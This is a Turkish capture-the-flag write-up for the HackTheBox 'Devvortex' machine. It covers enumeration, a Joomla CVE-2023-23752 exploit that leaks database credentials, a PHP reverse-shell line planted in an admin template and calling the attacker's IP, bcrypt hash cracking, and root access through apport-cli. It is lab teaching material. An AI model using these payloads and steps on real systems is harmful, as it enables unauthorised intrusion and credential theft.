

# Devvortex

## User Flag

!!! info "Target IP Address"

    10.10.11.242

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.242 -sV -Pn
```

```text title="Output" hl_lines="6 7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-12 10:02 +03
Nmap scan report for 10.10.11.242
Host is up (0.066s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.49 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://devvortex.htb](http://devvortex.htb) isimli bir sayfaya yeniden yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.242 devvortex.htb" | sudo tee -a /etc/hosts
```

Ardından Gobuster aracı ile vHost numaralandırma girişiminde bulundum:

```bash
gobuster vhost --append-domain -u devvortex.htb -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://devvortex.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb Status: 200 [Size: 23221]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

Burada bulunan adresi de `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.242 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

Gobuster aracı ile bu sefer dizin numaralandırmayı denedim (yeni adres ile):

```bash
gobuster dir -u dev.devvortex.htb -w /opt/useful/SecLists/Discovery/Web-Content/raft-small-files.txt
```

```text title="Output" hl_lines="20"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/useful/SecLists/Discovery/Web-Content/raft-small-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 23221]
/LICENSE.txt          (Status: 200) [Size: 18092]

...SNIP...

/robots.txt           (Status: 200) [Size: 764]

...SNIP...

/.                    (Status: 200) [Size: 23221]
/configuration.php    (Status: 200) [Size: 0]
/README.txt           (Status: 200) [Size: 4942]
/htaccess.txt         (Status: 200) [Size: 6858]

...SNIP...

Progress: 11424 / 11425 (99.99%)
===============================================================
Finished
===============================================================
```

Burada bulunan `robots.txt` dosyası ilgi çekiciydi. Durum kodu da 200 olduğu için kontrol etmekte fayda gördüm. Bu sebeple [http://dev.devvortex.htb/robots.txt](http://dev.devvortex.htb/robots.txt) adresine gittikten sonra aşağıdaki bilgilerle karşılaştım:

```text title="robots.txt" linenums="1" hl_lines="15"
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

İlk Disallow sonucunu kullanarak [http://dev.devvortex.htb/administrator](http://dev.devvortex.htb/administrator) adresine gittiğimde Joomla! Admin paneli beni karşıladı:



Kısa bir Google aramasından sonra [bu](https://github.com/Acceis/exploit-CVE-2023-23752) repoya denk geldim. Burada, Joomla! 4.0.0-4.2.7 sürümlerinde mevcut olan bir zafiyet için geliştirilmiş bir exploit bulunmaktaydı.

Web tarayıcısında [http://dev.devvortex.htb/administrator/manifests/files/joomla.xml](http://dev.devvortex.htb/administrator/manifests/files/joomla.xml) adresine gittiğimde, hedef makinede kurulu olan Joomla! sürümünün 4.2.6 olduğunu, yani bu exploit ile şansımı deneyebileceğimi düşündüm.

Bunun için bahsettiğim bu repoyu yerel makineme yükledim:

```bash
git clone https://github.com/Acceis/exploit-CVE-2023-23752
```

Ardından aşağıdaki komutu çalıştırdım:

```bash
ruby ./exploit-CVE-2023-23752/exploit.rb http://dev.devvortex.htb
```

```text title="Output" hl_lines="15 16"
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

Başka bir yöntem [bu](https://vulncheck.com/blog/joomla-for-rce) sayfada bahsedildiği gibi aşağıdaki cURL sorgusunu gerçekleştirmek olabilir:

```bash
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq .
```

```json title="Output" hl_lines="22 30"
{
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "dbtype": "mysqli",
      "id": 224
    }
  },
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "host": "localhost",
      "id": 224
    }
  },
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "user": "lewis",
      "id": 224
    }
  },
  {
    "type": "application",
    "id": "224",
    "attributes": {
      "password": "P4ntherg0t1n5r3c0n##",
      "id": 224
    }
  },

  ...SNIP...

}
```

Elde edilen kullanıcı adı ve parola bilgisi ile Joomla! Admin paneline başarılı bir şekilde girebildim.

Bir sonraki adımda reverse shell almayı amaçladım. Bunun için öncesinde aşağıdaki komut ile yerel makineme ait IP adresimi öğrendim:

```bash
ip a
```

```text title="Output" hl_lines="5"
...SNIP...

5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.45/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::102b/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::3249:9cef:8cb6:ff8d/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
```

Ardından Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Joomla! Admin panelinde `System` --> `Administrator Templates` --> `Atum Details and Files` şablonu (`administrator/templates/atum`) içerisinde bulunan `index.php` dosyasının başına aşağıdaki satırı ekledim:

```php
exec("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.45/4444 0>&1'");
```

Dosyanın son hali aşağıda verilmiştir:


Bu sayede [http://dev.devvortex.htb/administrator/templates/atum/index.php](http://dev.devvortex.htb/administrator/templates/atum/index.php) adresine gittiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.242] 60526
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

Kullanıcı kimlik bilgilerini öğrendiğim aşamada MySQL ile ilgili bilgiler de bulunmaktaydı. Bunun için MySQL ile etkileşime geçtim:

```bash
mysql -u lewis -pP4ntherg0t1n5r3c0n##
```

MySQL içinde mevcut olan veri tabanlarını görüntüledim:

```text
show databases;
```

```text title="Output" hl_lines="5"
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
```

Bu sonuçlardan `joomla` veri tabanını seçtim:

```text
use joomla;
```

Aşağıdaki sorgu ile kullanıcılara ait kullanıcı adı ve parola bilgisini ele geçirdim:

```sql
SELECT username,password FROM sd4fg_users;
```

```text title="Output" hl_lines="5"
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.01 sec)
```

Kısa bir Google aramasından sonra `logan` isimli kullanıcıya ait parola değerinin Bcrypt hash formatında tutulduğunu öğrendim.

Hash dizesinden parolayı elde etmek için John the Ripper aracını kullandım. Öncesinde bu hash dizesini bir dosyaya kaydettim:

```bash
echo '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' > hash.txt
```

John aracını aşağıdaki şekilde kullandım:

```bash
john --format=bcrypt -w=/usr/share/wordlists/rockyou.txt hash.txt
```

```text title="Output" hl_lines="6"
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:14 DONE (2024-01-13 06:21) 0.06680g/s 93.78p/s 93.78c/s 93.78C/s kelvin..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John, parolayı 20 saniyeden kısa bir sürede buldu.

Bu bilgiler ile SSH bağlantısı kurarak `www-data` --> `logan` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
ssh logan@devvortex.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:

```bash
sudo -l
```

```text title="Output" hl_lines="5"
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Mevcut kullanıcı ile `apport-cli` ikili dosyasını çalıştırabildiğimi fark ettim. Kısa bir Google aramasından sonra bu aracın çökme raporları oluşturmada kullanılabildiğini ve bu aracın ilgili sürümünde bir [zafiyet](https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00) bulunduğunu keşfettim.

```bash
sudo /usr/bin/apport-cli -f
```

```text title="Output" hl_lines="16 37 43 59"
*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

***

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue...

..dpkg-query: no packages found matching xorg
...................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
```

Yukarıda verilen çıktıda görüldüğü gibi, yeri geldikçe verilen kullanıcı girdileri ile aşağıdaki gibi bir ekrana ulaştım:

```text title="Output" hl_lines="32"
== ApportVersion =================================
2.20.11-0ubuntu27

== Architecture =================================
amd64

== CasperMD5CheckResult =================================
skip

== Date =================================
Sat Jan 13 11:40:49 2024

== DistroRelease =================================
Ubuntu 20.04

== Package =================================
xorg (not installed)

== ProblemType =================================
Bug

== ProcCpuinfoMinimal =================================
processor       : 1
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
stepping        : 0
cpu MHz         : 2994.375
cache size      : 512 KB
physical id     : 2
:
```

En altta bulunan komut istemine `!/bin/bash` komutunu girdiğimde `root` kullanıcısı oldum.

Kullanıcı bayrağını ele geçirirken kullandığım komuta benzer bir komut ile `root` bayrağını ele geçirebildim:

```bash
find / -name *root.txt -type f -exec cat {} \; 2> /dev/null
```
